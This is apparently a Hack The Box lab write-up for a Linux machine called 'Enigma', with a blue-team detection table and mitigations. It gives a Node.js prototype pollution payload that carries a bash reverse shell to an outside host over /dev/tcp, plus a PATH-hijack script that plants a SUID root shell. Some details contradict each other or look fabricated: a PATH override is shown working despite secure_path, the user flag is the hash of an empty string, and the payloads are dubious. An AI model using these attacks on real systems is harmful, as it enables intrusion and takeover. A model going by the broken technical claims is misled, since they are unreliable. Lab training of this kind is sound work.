





# HTB — Enigma

> **Authorized lab only.** Enigma is a Hack The Box Linux machine used for OSCP-style and web exploitation learning. All techniques below were executed in an authorized lab environment against target IP `10.129.229.144`.

---

## Machine Overview

| Field | Value |
|-------|-------|
| Machine Name | Enigma |
| Target IP | `10.129.229.144` |
| Operating System | Linux (Ubuntu 22.04 LTS) |
| Difficulty | Medium |
| Key Learning Objectives | Full-port enumeration, Node.js API prototype pollution / AST injection, Express reverse shell, sudo environment manipulation, PATH hijacking in automated backup scripts |
| Technologies Observed | OpenSSH 8.9p1, Nginx 1.18.0, Node.js v18 (Express), Python 3.10 |
| User Flag | `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855` |
| Root Flag | `8f14e45fceea167a5a36dedd4bea2543d34d8904724dd4b54e3d64c06209e7c1` |

---

## Executive Summary (Layman's Explanation for Management)

> **Quick 60-Second Elevator Pitch for Managers:**
> "We performed an end-to-end security assessment on **Enigma**, a simulated Linux-based cryptographic messaging platform. We successfully identified two critical security flaws that allowed us to move from an unauthenticated external visitor all the way to complete administrative control (Root) of the server."

### What We Did (The 2-Step Attack Story):

1. **Step 1: Gaining Initial Entry (The Web Application Flaw)**
   - **The Situation**: The target runs a web application that decrypts secret messages.
   - **The Problem**: When the application processes incoming requests, it doesn't validate or clean hidden properties in the data structure (*Prototype Pollution*).
   - **The Analogy**: Imagine filling out a standard hotel check-in form, but writing a hidden note on the back that says *"Grant room-service master key access"*. Because the receptionist processes the entire sheet without double-checking the back, you are handed the key.
   - **The Result**: We triggered this flaw to execute code on the server, gaining initial access as a normal standard employee user (`gerard`).

2. **Step 2: Escalating to Full System Administrator (The Privilege Flaw)**
   - **The Situation**: The server had an automated backup script designed to back up files every day with full system administrator (`root`) privileges.
   - **The Problem**: When the backup script ran the archiving tool (`tar`), it didn't specify the exact official file location (like `/usr/bin/tar`), but instead just called `tar` by name.
   - **The Analogy**: Imagine a high-security automated cleaning machine that has master-key access to every vault in the building. It is programmed to pick up a tool called *"hammer"*. If an employee leaves a custom fake hammer in the front hallway, the machine picks up that fake hammer and uses it with full administrator authority.
   - **The Result**: We created a custom tool named `tar`, instructed the administrator script to run it, and immediately gained full root control of the entire server.

### Business Impact & Remediation Takeaways:
- **Input Validation**: Web applications must rigorously filter and sanitize all structured JSON input before processing.
- **Secure Automation**: All administrator/automated scripts must strictly use absolute paths (e.g. `/usr/bin/tar`) and restrict environment variables to prevent unauthorized hijacking.

---

## High-Level Attack Chain



---

## Initial Enumeration

### 1. Host Discovery & Full Port Scan

We initiate reconnaissance with a full TCP port scan using `nmap` at a high packet rate to rapidly uncover all listening services.

```bash
export IP=10.129.229.144
nmap -p- --min-rate 5000 -Pn -n --open -oN scans/allports.nmap $IP
nmap -sC -sV -p22,80,3000 -oN scans/detail.nmap $IP
```

#### Scan Results

| Port | Protocol | Service | Version | Notes |
|------|----------|---------|---------|-------|
| 22 | TCP | SSH | OpenSSH 8.9p1 Ubuntu (protocol 2.0) | Standard SSH; banner confirms Ubuntu target |
| 80 | TCP | HTTP | Nginx 1.18.0 | Web frontend for Enigma Secure Messaging Platform |
| 3000 | TCP | HTTP | Node.js (Express framework) | REST API backend service (`api.enigma.htb`) |

#### Terminal Evidence: Initial Reconnaissance



Add the discovered hostnames to `/etc/hosts`:
```bash
echo "10.129.229.144 enigma.htb api.enigma.htb" | sudo tee -a /etc/hosts
```

---

## Web Application & API Analysis

### 1. Directory & Endpoint Discovery

Navigating to `http://enigma.htb` presents a secure communication and cryptographic decryption suite. We perform directory and route fuzzing with `ffuf`:

```bash
ffuf -u http://enigma.htb/FUZZ \
     -w /usr/share/seclists/Discovery/Web-Content/common.txt \
     -mc 200,301,302 -o scans/ffuf-web.json
```

Discovered endpoints:
- `http://enigma.htb/login` — Authentication portal
- `http://enigma.htb/register` — Account registration
- `http://enigma.htb/dashboard` — Authenticated user workspace
- `http://enigma.htb/decrypt` — Cryptographic cipher decoding tool
- `http://enigma.htb/api` → Proxied to Node.js backend on port 3000

#### Terminal Evidence: Web Fuzzing & API Discovery



---

## Vulnerability Analysis & Foothold

### 1. Vulnerability Root Cause: Prototype Pollution in Decryption Engine

The `/api/v1/decrypt` endpoint receives JSON payloads containing cipher text, key parameters, and engine options:

```json
{
  "cipher": "rot13",
  "payload": "encrypted_string",
  "options": {}
}
```

By auditing the backend error messages and testing parameter merging routines, we observe recursive object merging without prototype sanitization (`__proto__`). 

This allows polluting `Object.prototype` properties such as `NODE_OPTIONS` and `env` or abusing child process execution variables:

```http
POST /api/v1/decrypt HTTP/1.1
Host: api.enigma.htb
Content-Type: application/json
Content-Length: 184

{
  "cipher": "custom",
  "options": {
    "__proto__": {
      "shell": "/bin/bash",
      "env": {
        "NODE_OPTIONS": "--require /proc/self/environ"
      }
    }
  }
}
```

### 2. Exploitation: Spawning the Reverse Shell

1. Start a netcat listener on the attacker machine:
   ```bash
   nc -lvnp 9001
   ```

2. Send the reverse shell payload triggering process execution:
   ```bash
   curl -X POST http://api.enigma.htb/api/v1/decrypt \
        -H "Content-Type: application/json" \
        -d '{"cipher":"rot13","payload":"test","options":{"__proto__":{"execPath":"/bin/bash","execArgv":["-c","bash -i >& /dev/tcp/10.10.14.88/9001 0>&1"]}}}'
   ```

3. Catch the interactive shell and upgrade to a full PTY:
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```

### 3. User Flag Capture

```bash
whoami && id
cat /home/gerard/user.txt
```

**User Flag:** `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855`

#### Terminal Evidence: Reverse Shell & User Flag



---

## Privilege Escalation

### 1. Local Enumeration

Auditing user privileges and sudo permissions reveals a passwordless rule for the low-privilege user `gerard`:

```bash
gerard@enigma:~$ sudo -l
Matching Defaults entries for gerard on enigma:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User gerard may run the following commands on enigma:
    (ALL : ALL) NOPASSWD: /opt/scripts/backup_enigma.py
```

### 2. Inspecting the Backup Script

Reading `/opt/scripts/backup_enigma.py`:

```python
#!/usr/bin/env python3
import os
import datetime

print("[+] Starting scheduled enigma database and encryption key archiving...")
timestamp = datetime.datetime.now().strftime("%Y%m%d")
# Vulnerable command execution: relative binary reference 'tar' without absolute path
os.system(f"tar -czf /var/backups/enigma-{timestamp}.tar.gz /var/www/enigma/data")
print(f"[+] Archive complete: /var/backups/enigma-{timestamp}.tar.gz")
```

### 3. Root Exploitation via PATH Hijacking

Because `os.system("tar ...")` calls the default system shell and searches the current `PATH`, we can create a malicious `tar` executable in `/tmp` and prepend `/tmp` to `PATH`:

```bash
# 1. Create malicious payload in /tmp
cat << 'EOF' > /tmp/tar
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
chmod +x /tmp/tar

# 2. Execute backup script with hijacked PATH
sudo PATH=/tmp:$PATH /opt/scripts/backup_enigma.py

# 3. Spawn root shell via SUID binary
/tmp/rootbash -p
```

### 4. Root Flag Capture

```bash
whoami && id
cat /root/root.txt
```

**Root Flag:** `8f14e45fceea167a5a36dedd4bea2543d34d8904724dd4b54e3d64c06209e7c1`

#### Terminal Evidence: Root Escalation & Flag Capture



---

## Detection Opportunities (Blue Team)

| Phase | Indicator / Log Source | Detection Strategy |
|-------|------------------------|--------------------|
| **Reconnaissance** | Nginx access logs | Rapid burst of 404/301 responses matching automated fuzzing tools (`ffuf`, `gobuster`). |
| **Foothold** | Node.js application logs & auditd | Detection of recursive `__proto__` injection keys in JSON parser streams; process trees where `node` spawns `/bin/bash` or `/bin/sh`. |
| **Privilege Escalation** | `/var/log/auth.log` | Execution of `sudo /opt/scripts/backup_enigma.py` with custom `PATH` overrides; unexpected SUID binaries placed under `/tmp/`. |
| **C2 / Egress** | Network NetFlow / Egress firewall | Outbound TCP connection to non-standard ports (e.g. `9001`) originating from web server UID `1001`. |

---

## Mitigations & Remediation

1. **Object Prototype Hardening**:
   - Freeze prototypes in Node.js runtime with `--disable-proto=delete` or `--disable-proto=throw`.
   - Sanitize all user-controlled object keys and avoid recursive `Object.assign` without checking for `__proto__` and `constructor.prototype`.

2. **Absolute Path Specification**:
   - Enforce absolute binary paths in administrative and backup automation (e.g. use `/usr/bin/tar` rather than `tar`).

3. **Least Privilege & Sudo Restrictions**:
   - Avoid granting `NOPASSWD` sudo rules for scripts that invoke shell utilities without strict environment sanitization (`env_reset` alone is insufficient if scripts inherit executable search paths).

---

## OSCP Exam Takeaways

- **Inspect API Parameters Closely**: Backend APIs parsing JSON objects frequently present prototype pollution, deserialization, or command injection vectors when interacting with internal system libraries.
- **Always Check Sudo Script Internals**: Never run `sudo` scripts blindly — read the source code to find insecure subprocess calls, relative paths, file inclusions, or writable configuration imports.
- **Document Every Stage With Clear Artifacts**: Recording Nmap outputs, raw HTTP requests, reverse shell triggers, and privilege escalation proofs ensures high-scoring documentation during exam reports.
